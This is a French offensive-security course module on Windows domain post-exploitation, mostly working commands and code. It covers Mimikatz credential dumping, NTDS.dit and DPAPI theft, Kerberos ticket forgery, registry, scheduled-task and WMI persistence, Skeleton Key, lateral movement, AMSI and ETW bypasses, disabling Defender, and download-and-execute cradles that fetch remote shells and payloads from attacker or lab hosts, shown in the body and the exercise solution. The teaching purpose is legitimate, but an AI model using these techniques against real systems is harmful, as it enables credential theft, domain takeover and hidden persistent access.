

---
tags:
  - formation
  - security
  - windows
  - hacking
  - post-exploitation
  - persistence
  - lateral-movement
  - mimikatz
---

# Module 5 : Post-Exploitation & Persistence

Après avoir compromis le domaine, l'objectif est de maintenir l'accès et de pivoter vers d'autres systèmes. Ce module couvre les techniques avancées de credential dumping, la création de tickets Kerberos forgés, les mécanismes de persistence, le mouvement latéral et l'évasion des défenses.

## Objectifs du Module

À la fin de ce module, vous serez capable de :

- Extraire des credentials avec Mimikatz en profondeur
- Créer et utiliser des Golden et Silver Tickets
- Établir des mécanismes de persistence discrets
- Réaliser du mouvement latéral avec différentes techniques
- Contourner les défenses (AMSI, Defender, ETW)

**Durée estimée :** 6.5 heures
**Niveau :** Avancé

---

## 1. Credential Dumping Avancé

### 1.1 Mimikatz en Profondeur

!!! info "Mimikatz - L'outil incontournable"
    Mimikatz reste l'outil de référence pour l'extraction de credentials Windows, malgré sa détection par tous les antivirus.

**Commandes essentielles :**

```powershell
# Démarrer Mimikatz
.\mimikatz.exe

# Activer les privilèges de debug
privilege::debug

# Élever vers SYSTEM
token::elevate

# Extraire les credentials des sessions actives
sekurlsa::logonpasswords

# Extraire les tickets Kerberos
sekurlsa::tickets /export

# Extraire les clés de chiffrement
sekurlsa::ekeys

# Extraire les credentials du cache
lsadump::cache

# Extraire la SAM
lsadump::sam

# DCSync (si droits suffisants)
lsadump::dcsync /user:Administrator
lsadump::dcsync /user:krbtgt
```

**One-liner Mimikatz :**

```powershell
# Exécution sans interaction
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# Avec sortie fichier
.\mimikatz.exe "privilege::debug" "log output.txt" "sekurlsa::logonpasswords" "exit"
```

### 1.2 DPAPI Secrets

DPAPI (Data Protection API) protège les secrets utilisateur. Mimikatz peut les déchiffrer.

```powershell
# Lister les master keys
dpapi::masterkey /in:"C:\Users\user\AppData\Roaming\Microsoft\Protect\S-1-5-21-...\[GUID]" /rpc

# Déchiffrer avec le domain backup key (en tant que DA)
lsadump::backupkeys /export

# Déchiffrer les credentials Chrome
dpapi::chrome /in:"C:\Users\user\AppData\Local\Google\Chrome\User Data\Default\Login Data"

# Credentials du Credential Manager
vault::list
vault::cred
```

### 1.3 NTDS.dit Extraction

Le fichier NTDS.dit contient tous les hashes du domaine.

```powershell
# Méthode 1 : VSS (Volume Shadow Copy)
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\Windows\NTDS\ntds.dit C:\temp\ntds.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\Windows\System32\config\SYSTEM C:\temp\SYSTEM

# Méthode 2 : ntdsutil
ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q

# Méthode 3 : Mimikatz avec DCSync (plus discret)
lsadump::dcsync /all /csv
```

```bash
# Extraction des hashes (sur Kali)
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL

# Ou directement via le réseau
secretsdump.py yourcompany.local/Administrator:'Password123'@dc01.yourcompany.local
```

### 1.4 LSA Secrets

```powershell
# Avec Mimikatz
lsadump::secrets

# Secrets typiques :
# - Mots de passe de comptes de service
# - Credentials de tâches planifiées
# - Clés de chiffrement
# - DPAPI system keys
```

---

## 2. Ticket Forgery

### 2.1 Golden Ticket

**Concept :** Avec le hash du compte krbtgt, on peut forger n'importe quel TGT. Ce ticket est valide tant que le mot de passe krbtgt n'est pas changé (deux fois).



**Prérequis :**

- Hash NTLM (ou clé AES) du compte krbtgt
- SID du domaine
- Nom de domaine

**Création avec Mimikatz :**

```powershell
# Récupérer le hash krbtgt (DCSync)
lsadump::dcsync /user:krbtgt

# Résultat :
# Hash NTLM : 1a2b3c4d5e6f...
# AES256 : abcd1234...

# Récupérer le SID du domaine
whoami /user
# ou
Get-ADDomain | Select-Object -ExpandProperty DomainSID

# Créer le Golden Ticket
kerberos::golden /user:FakeAdmin /domain:yourcompany.local /sid:S-1-5-21-1234567890-... /krbtgt:1a2b3c4d5e6f... /ptt

# Options additionnelles
# /id:500         - RID (500 = Administrator)
# /groups:512     - Domain Admins group
# /aes256:KEY     - Utiliser AES au lieu de RC4 (plus discret)
# /startoffset:-10 - Ticket valide depuis 10 min
# /endin:600      - Valide 600 min
# /renewmax:10080 - Renouvelable 7 jours
```

```bash
# Avec Impacket
ticketer.py -nthash 1a2b3c4d5e6f... -domain-sid S-1-5-21-1234567890-... -domain yourcompany.local Administrator

export KRB5CCNAME=Administrator.ccache
psexec.py yourcompany.local/Administrator@dc01.yourcompany.local -k -no-pass
```

### 2.2 Silver Ticket

**Concept :** Forger un TGS pour un service spécifique avec le hash du compte de service.

```powershell
# Silver Ticket pour accès CIFS (partages)
kerberos::golden /user:Administrator /domain:yourcompany.local /sid:S-1-5-21-... /target:srv01.yourcompany.local /service:cifs /rc4:HASH_MACHINE$ /ptt

# Silver Ticket pour WMI
kerberos::golden /user:Administrator /domain:yourcompany.local /sid:S-1-5-21-... /target:srv01.yourcompany.local /service:host /rc4:HASH /ptt

# Services courants :
# cifs    - Accès fichiers SMB
# http    - Web services
# host    - WMI, PSRemoting, Scheduled Tasks
# ldap    - LDAP queries
# mssql   - SQL Server
```

### 2.3 Diamond Ticket

**Concept :** Plus discret que le Golden Ticket. On demande un vrai TGT puis on le modifie pour changer l'utilisateur.

```powershell
# Avec Rubeus
.\Rubeus.exe diamond /krbkey:KRBTGT_AES256_KEY /user:FakeAdmin /enctype:aes /ticketuser:realuser /ticketuserid:1234 /groups:512 /ptt

# Le ticket résultant a un ticket-granting-ticket légitime
# mais les PAC (Privilege Attribute Certificate) sont modifiés
```

### 2.4 Sapphire Ticket

**Concept :** Encore plus discret. Utilise S4U2Self pour obtenir un ticket légitime puis modifie le PAC.

```bash
# Avec Impacket
ticketer.py -request -user Administrator -domain yourcompany.local -password 'P@ssw0rd' -nthash KRBTGT_HASH -domain-sid S-1-5-21-... -dc-ip 192.168.56.10 FakeAdmin
```

---

## 3. Mécanismes de Persistence

### 3.1 Registry Persistence

```powershell
# Run keys - Exécution au démarrage utilisateur
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "C:\temp\backdoor.exe"
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "C:\temp\backdoor.exe"

# RunOnce - Exécution unique au prochain démarrage
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v Backdoor /t REG_SZ /d "C:\temp\backdoor.exe"

# Winlogon - Exécution à chaque logon
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /t REG_SZ /d "C:\Windows\System32\userinit.exe,C:\temp\backdoor.exe"
```

### 3.2 Scheduled Tasks

```powershell
# Créer une tâche planifiée
schtasks /create /tn "WindowsUpdate" /tr "C:\temp\backdoor.exe" /sc onlogon /ru SYSTEM

# Tâche qui s'exécute toutes les heures
schtasks /create /tn "SystemCheck" /tr "powershell -ep bypass -w hidden -c IEX(cmd)" /sc hourly /ru SYSTEM

# Avec PowerShell (plus de contrôle)
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-ep bypass -w hidden -file C:\temp\script.ps1"
$trigger = New-ScheduledTaskTrigger -AtStartup
$settings = New-ScheduledTaskSettingsSet -Hidden
Register-ScheduledTask -TaskName "WindowsUpdate" -Action $action -Trigger $trigger -Settings $settings -User "SYSTEM"
```

### 3.3 WMI Event Subscriptions

Persistence plus discrète via WMI.

```powershell
# Créer un event filter (déclencheur)
$FilterArgs = @{
    Name = 'BackdoorFilter'
    EventNamespace = 'root\cimv2'
    QueryLanguage = 'WQL'
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
}
$Filter = Set-WmiInstance -Namespace root\subscription -Class __EventFilter -Arguments $FilterArgs

# Créer un consumer (action)
$ConsumerArgs = @{
    Name = 'BackdoorConsumer'
    CommandLineTemplate = "C:\temp\backdoor.exe"
}
$Consumer = Set-WmiInstance -Namespace root\subscription -Class CommandLineEventConsumer -Arguments $ConsumerArgs

# Lier filter et consumer
$BindingArgs = @{
    Filter = $Filter
    Consumer = $Consumer
}
Set-WmiInstance -Namespace root\subscription -Class __FilterToConsumerBinding -Arguments $BindingArgs
```

### 3.4 DLL Search Order Hijacking

```powershell
# Identifier une DLL manquante chargée par un service système
# Placer notre DLL dans un répertoire prioritaire

# Exemple : wlbsctrl.dll pour le service IKEEXT
# Copier la DLL malveillante dans C:\Windows\System32\
```

### 3.5 Domain Persistence

**AdminSDHolder Abuse :**

```powershell
# L'objet AdminSDHolder définit les ACLs des groupes protégés
# Modifier ses ACLs = persistence dans 60 minutes sur tous les comptes protégés

# Ajouter GenericAll pour notre utilisateur sur AdminSDHolder
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=yourcompany,DC=local' -PrincipalIdentity attacker -Rights All

# Après 60 min (ou forcer avec SDProp), on a GenericAll sur Domain Admins
```

**DSRM Backdoor :**

```powershell
# Le compte DSRM est un compte admin local sur le DC
# Son hash est dans le registre

# Activer l'authentification DSRM sur le réseau
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v DsrmAdminLogonBehavior /t REG_DWORD /d 2

# Se connecter avec le hash DSRM (extrait lors du DCSync)
sekurlsa::pth /user:Administrator /domain:DC01 /ntlm:DSRM_HASH
```

**Skeleton Key :**

```powershell
# Injecte un "mot de passe maître" dans LSASS sur le DC
# Tous les utilisateurs peuvent s'authentifier avec ce mot de passe

# Avec Mimikatz (en tant que SYSTEM sur le DC)
misc::skeleton

# Mot de passe par défaut : mimikatz
# Tester : runas /user:yourcompany\anyuser cmd
# Mot de passe : mimikatz
```

**Custom SSP :**

```powershell
# Charger une SSP malveillante qui log les credentials en clair

# Avec Mimikatz
misc::memssp

# Les credentials sont loggés dans C:\Windows\System32\mimilsa.log
```

---

## 4. Lateral Movement

### 4.1 PsExec et variantes

```bash
# PsExec classique (Impacket)
psexec.py yourcompany.local/Administrator:'Password'@192.168.56.10

# Avec hash
psexec.py yourcompany.local/Administrator@192.168.56.10 -hashes :HASH

# SMBExec (pas de service créé)
smbexec.py yourcompany.local/Administrator:'Password'@192.168.56.10

# WMIExec (via WMI)
wmiexec.py yourcompany.local/Administrator:'Password'@192.168.56.10

# ATExec (via Task Scheduler)
atexec.py yourcompany.local/Administrator:'Password'@192.168.56.10 "whoami"
```

### 4.2 WinRM / PSRemoting

```powershell
# PowerShell Remoting
Enter-PSSession -ComputerName SRV01 -Credential (Get-Credential)

# Exécuter une commande
Invoke-Command -ComputerName SRV01 -ScriptBlock { whoami } -Credential (Get-Credential)

# Session persistante
$session = New-PSSession -ComputerName SRV01 -Credential (Get-Credential)
Invoke-Command -Session $session -ScriptBlock { Get-Process }
```

```bash
# Evil-WinRM (depuis Linux)
evil-winrm -i 192.168.56.10 -u Administrator -p 'Password'

# Avec hash
evil-winrm -i 192.168.56.10 -u Administrator -H HASH

# Avec Kerberos
evil-winrm -i srv01.yourcompany.local -r yourcompany.local
```

### 4.3 DCOM Exploitation

```powershell
# MMC20.Application
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.56.10"))
$com.Document.ActiveView.ExecuteShellCommand("cmd.exe",$null,"/c calc.exe","Minimized")

# ShellWindows
$com = [activator]::CreateInstance([type]::GetTypeFromCLSID("9BA05972-F6A8-11CF-A442-00A0C90A8F39","192.168.56.10"))
$item = $com.Item()
$item.Document.Application.ShellExecute("cmd.exe","/c calc.exe","","open",0)
```

### 4.4 RDP Hijacking

Si une session RDP est déjà ouverte (même déconnectée), on peut la "voler" en tant que SYSTEM.

```powershell
# Lister les sessions
query user

# Résultat :
# USERNAME      SESSIONNAME   ID  STATE
# administrator             1  Disc

# Hijack la session (en tant que SYSTEM)
tscon 1 /dest:console

# Avec PsExec pour obtenir SYSTEM d'abord
PsExec.exe -s -i cmd
tscon 1 /dest:console
```

### 4.5 Pass-the-Certificate

```bash
# Si on a un certificat utilisateur (via ADCS exploitation)
certipy auth -pfx user.pfx -dc-ip 192.168.56.10

# Résultat : hash NTLM de l'utilisateur
# Puis Pass-the-Hash
```

---

## 5. Defense Evasion

### 5.1 AMSI Bypass

AMSI (Antimalware Scan Interface) scanne les scripts PowerShell en mémoire.

```powershell
# Bypass classique (patching en mémoire)
$a=[Ref].Assembly.GetTypes();ForEach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');ForEach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf=@(0);[System.Runtime.InteropServices.Marshal]::Copy($buf,0,$ptr,1)

# One-liner obfusqué
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)

# Avec réflection
$a = 'System.Management.Automation.A]'+']m]si]Ut]il]s'.Replace(']','')
$b = [Ref].Assembly.GetType($a)
$c = $b.GetField('am'+'siIn'+'itFailed','NonPublic,Static')
$c.SetValue($null,$true)
```

### 5.2 Defender Exclusions

```powershell
# Ajouter des exclusions (requiert admin)
Add-MpPreference -ExclusionPath "C:\temp"
Add-MpPreference -ExclusionProcess "mimikatz.exe"
Add-MpPreference -ExclusionExtension ".ps1"

# Désactiver la protection en temps réel (temporairement)
Set-MpPreference -DisableRealtimeMonitoring $true

# Désactiver Defender complètement (avec TrustedInstaller)
# Via GPO ou politique locale
```

### 5.3 ETW Bypass

Event Tracing for Windows permet de monitorer PowerShell. Le bypass empêche le logging.

```powershell
# Patch ETW
$a = [Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider')
$b = $a.GetField('etwProvider','NonPublic,Static')
$c = $b.GetValue($null)
$d = $c.GetType().GetField('m_enabled','NonPublic,Instance')
$d.SetValue($c,0)
```

### 5.4 LOLBins (Living off the Land Binaries)

Utiliser des binaires Windows légitimes pour éviter la détection.

| Binary | Usage offensif |
|--------|----------------|
| certutil | Télécharger des fichiers |
| bitsadmin | Télécharger des fichiers |
| mshta | Exécuter HTA/VBS |
| msiexec | Exécuter MSI malveillant |
| rundll32 | Exécuter DLL |
| regsvr32 | Exécuter SCT |
| cscript/wscript | Exécuter VBS/JS |
| powershell | Tout... |

```powershell
# Télécharger avec certutil
certutil -urlcache -split -f http://attacker/payload.exe payload.exe

# Exécuter depuis URL avec mshta
mshta http://attacker/payload.hta

# Télécharger avec bitsadmin
bitsadmin /transfer job /download /priority high http://attacker/payload.exe C:\temp\payload.exe

# Exécuter DLL avec rundll32
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -ep bypass -w hidden -c IEX(cmd)");
```

### 5.5 Obfuscation PowerShell

```powershell
# Invoke-Obfuscation
Invoke-Obfuscation
SET SCRIPTPATH C:\temp\payload.ps1
ENCODING
1  # Base64

# Exemple manuel
$cmd = "IEX (New-Object Net.WebClient).DownloadString('http://attacker/script.ps1')"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($cmd)
$encoded = [Convert]::ToBase64String($bytes)
powershell -enc $encoded
```

---

## Exercice Pratique

!!! example "Exercice : Persistence et Évasion"

    **Objectif** : Établir 3 mécanismes de persistence différents et démontrer leur résilience aux redémarrages

    **Contexte** : Vous êtes Domain Admin sur le domaine. Vous devez établir une persistence durable qui survit aux redémarrages et qui échappe aux détections basiques.

    **Phase 1 : Golden Ticket (30 min)**

    1. Extraire le hash krbtgt via DCSync
    2. Créer un Golden Ticket
    3. Tester l'accès après déconnexion/reconnexion

    **Phase 2 : Persistence locale (45 min)**

    1. Créer une tâche planifiée qui exécute un reverse shell
    2. Configurer une WMI Event Subscription
    3. Ajouter une entrée Registry Run

    **Phase 3 : Domain Persistence (45 min)**

    1. Configurer AdminSDHolder pour un utilisateur contrôlé
    2. Activer DSRM
    3. (Optionnel) Skeleton Key

    **Phase 4 : Évasion (30 min)**

    1. Bypasser AMSI
    2. Exécuter Mimikatz malgré Defender
    3. Utiliser un LOLBin pour télécharger un payload

    **Critères de réussite** :

    - [ ] Golden Ticket fonctionnel
    - [ ] Au moins 2 mécanismes de persistence locale
    - [ ] AdminSDHolder configuré
    - [ ] AMSI bypassé avec exécution de script

??? quote "Solution"

    **Phase 1 : Golden Ticket**

    ```powershell
    # 1. DCSync pour krbtgt
    .\mimikatz.exe "privilege::debug" "lsadump::dcsync /user:krbtgt" "exit"

    # Résultat :
    # Hash NTLM : a1b2c3d4e5f6...
    # SID : S-1-5-21-1234567890-...

    # 2. Créer le Golden Ticket
    .\mimikatz.exe
    kerberos::golden /user:FakeAdmin /domain:yourcompany.local /sid:S-1-5-21-1234567890-... /krbtgt:a1b2c3d4e5f6... /ptt

    # 3. Tester
    dir \\dc01\c$
    # Accès OK même sans être vraiment DA!
    ```

    **Phase 2 : Persistence locale**

    ```powershell
    # 1. Tâche planifiée
    schtasks /create /tn "WindowsSecurityUpdate" /tr "powershell -ep bypass -w hidden -c IEX((New-Object Net.WebClient).DownloadString('http://192.168.56.100/shell.ps1'))" /sc onlogon /ru SYSTEM

    # 2. WMI Subscription
    $Filter = Set-WmiInstance -Namespace root\subscription -Class __EventFilter -Arguments @{
        Name = 'SystemUpdate'
        EventNamespace = 'root\cimv2'
        QueryLanguage = 'WQL'
        Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
    }

    $Consumer = Set-WmiInstance -Namespace root\subscription -Class CommandLineEventConsumer -Arguments @{
        Name = 'SystemUpdateConsumer'
        CommandLineTemplate = 'powershell -ep bypass -w hidden -c "IEX((New-Object Net.WebClient).DownloadString(''http://192.168.56.100/shell.ps1''))"'
    }

    Set-WmiInstance -Namespace root\subscription -Class __FilterToConsumerBinding -Arguments @{
        Filter = $Filter
        Consumer = $Consumer
    }

    # 3. Registry Run
    reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v SecurityUpdate /t REG_SZ /d "powershell -ep bypass -w hidden -enc BASE64_PAYLOAD"
    ```

    **Phase 3 : Domain Persistence**

    ```powershell
    # 1. AdminSDHolder
    # Charger PowerView
    Import-Module .\PowerView.ps1

    Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=yourcompany,DC=local' -PrincipalIdentity backdoor_user -Rights All -Verbose

    # Forcer SDProp (sinon attendre 60 min)
    Invoke-SDPropagator -showProgress -timeoutMinutes 1

    # 2. DSRM
    reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v DsrmAdminLogonBehavior /t REG_DWORD /d 2

    # Hash DSRM récupéré lors du DCSync (compte DSRM)
    ```

    **Phase 4 : Évasion**

    ```powershell
    # 1. AMSI Bypass
    [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

    # 2. Exécuter Mimikatz
    # Télécharger une version obfusquée ou utiliser Invoke-Mimikatz
    IEX (New-Object Net.WebClient).DownloadString('http://192.168.56.100/Invoke-Mimikatz.ps1')
    Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'

    # 3. LOLBin
    certutil -urlcache -split -f http://192.168.56.100/payload.exe C:\temp\payload.exe
    C:\temp\payload.exe
    ```

---

## Points Clés à Retenir

- **Golden Ticket** : Persistence ultime, valide jusqu'au double changement de krbtgt
- **WMI Subscriptions** : Plus discrètes que les tâches planifiées
- **AdminSDHolder** : Persistence domain-wide en 60 minutes
- **AMSI** : Bypass nécessaire pour tout script offensif
- **LOLBins** : Toujours préférer les binaires légitimes
- **Logs** : Les techniques de persistence laissent des traces

---

## Ressources

- [HackTricks - Windows Persistence](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/persistence)
- [The Hacker Recipes - Persistence](https://www.thehacker.recipes/ad/persistence)
- [LOLBAS Project](https://lolbas-project.github.io/)
- [Mimikatz Wiki](https://github.com/gentilkiwi/mimikatz/wiki)

---

| | |
|:---|---:|
| [← Module 4 : Privilege Escalation](04-module.md) | [Module 6 : Projet Final →](06-tp-final.md) |

[Retour au Programme](index.md){ .md-button }
